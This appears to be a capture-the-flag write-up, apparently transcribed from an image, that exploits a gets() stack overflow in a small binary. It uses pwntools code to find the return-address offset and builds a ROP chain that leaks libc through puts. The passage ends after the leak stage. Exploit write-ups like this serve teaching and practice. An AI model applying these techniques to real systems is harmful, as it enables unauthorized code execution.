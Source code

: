 ### bin2

```c
undefined8 main(void)
{
    int64_t var_34h;
    
    var_34h._0_4_ = sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.puts("Name: ");
    sym.imp.gets((int64_t)&var_34h + 4);
    sym.imp.puts("Hello, ");
    sym.imp.puts((int64_t)&var_34h + 4);
    return 0;
}
```

### Vulnerability

Importantly, all of them contain a call to `gets` and store user input on the stack.
There is no canary, so we can use this to easily overflow the buffer and overwrite the saved RIP.
However, the size of the buffer differs between binaries.

### Finding the offset

Using the local file we created, we can automatically find the offset to the saved RIP by sending a cyclic pattern and causing the program to crash, then analysing the core dump:

```py
p = local()

p.sendline(cyclic(0x80, n=8))
p.recvall()

core = p.corefile

fault = cyclic_find(core.fault_addr, n=8)
```

### Finding libc

Now that we have the offset, we can use `puts` to leak the address of libc:

```py
main = exe.symbols['main']
puts_plt = exe.plt['puts']
puts_got = exe.got['puts']

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

leak_payload = flat({
    fault: [
        pop_rdi,
        puts_got,
        puts_plt,
        main,
        ]
    })
```
We also return to the main function so we can send user input again in the next stage of the exploit.
